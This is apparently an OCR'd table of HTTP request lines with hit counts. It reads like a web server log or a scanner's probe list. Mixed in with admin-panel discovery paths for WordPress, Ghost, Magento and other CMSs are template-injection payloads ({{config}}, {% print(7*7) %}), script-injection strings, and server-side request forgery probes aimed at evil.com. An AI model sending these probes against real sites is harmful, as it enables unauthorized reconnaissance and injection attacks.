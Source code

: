 |  548 |                     4 | GET /tpl?body={% print(7*7) %} HTTP/1.1                               |
|  549 |                     4 | GET /test?input={{range.__class__}} HTTP/1.1                          |
|  550 |                     4 | GET /template?code={% raw %}{{ self }}{% endraw %} HTTP/1.1           |
|  551 |                     4 | GET /sync/from-url HTTP/1.1                                           |
|  552 |                     4 | GET /report?format={{request}} HTTP/1.1                               |
|  553 |                     4 | GET /report?file=quarter1.pdf HTTP/1.1                                |
|  554 |                     4 | GET /render?data={{config}} HTTP/1.1                                  |
|  555 |                     4 | GET /render/preview HTTP/1.1                                          |
|  556 |                     4 | GET /?tpl={{constructor.constructor('alert(1)')()}} HTTP/1.1          |
|  557 |                     4 | GET /?csp_report_uri=http://evil.com HTTP/1.1                         |
|  558 |                     4 | GET /webhook/send HTTP/1.1                                            |
|  559 |                     4 | GET /tools/fetch?uri=http://example.com HTTP/1.1                      |
|  560 |                     4 | GET /test/request HTTP/1.1                                            |
|  561 |                     4 | GET /test-ssrf HTTP/1.1                                               |
|  562 |                     4 | GET /system/ping HTTP/1.1                                             |
|  563 |                     4 | GET /script.js?source=javascript:alert(1) HTTP/1.1                    |
|  564 |                     4 | GET /wp-admin/options-general.php HTTP/1.1                            |
|  565 |                     4 | GET /wp-admin/customize.php HTTP/1.1                                  |
|  566 |                     4 | GET /typo3/index.php HTTP/1.1                                         |
|  567 |                     4 | GET /site-admin/ HTTP/1.1                                             |
|  568 |                     4 | GET /pw-admin/ HTTP/1.1                                               |
|  569 |                     4 | GET /processwire/ HTTP/1.1                                            |
|  570 |                     4 | GET /prestashop-admin/ HTTP/1.1                                       |
|  571 |                     4 | GET /api/callback?url=http://evil.com HTTP/1.1                        |
|  572 |                     4 | GET /admin/webhook?url=... HTTP/1.1                                   |
|  573 |                     4 | GET /magento_admin/ HTTP/1.1                                          |
|  574 |                     4 | GET /account?user=admin HTTP/1.1                                      |
|  575 |                     4 | GET /keystone/api HTTP/1.1                                            |
|  576 |                     4 | GET /keystone HTTP/1.1                                                |
|  577 |                     4 | GET /index.php/login HTTP/1.1                                         |
|  578 |                     4 | GET /index.php/dashboard/sitemap/ HTTP/1.1                            |
|  579 |                     4 | GET /index.php/dashboard/ HTTP/1.1                                    |
|  580 |                     4 | GET /ghost/signin/ HTTP/1.1                                           |
|  581 |                     4 | GET /ghost/#/dashboard HTTP/1.1                                       |
|  582 |                     4 | GET /ghost/ HTTP/1.1                                                  |
|  583 |                     4 | GET /editor/page/ HTTP/1.1                                            |
|  584 |                     4 | GET /dashboard_admin/ HTTP/1.1                                        |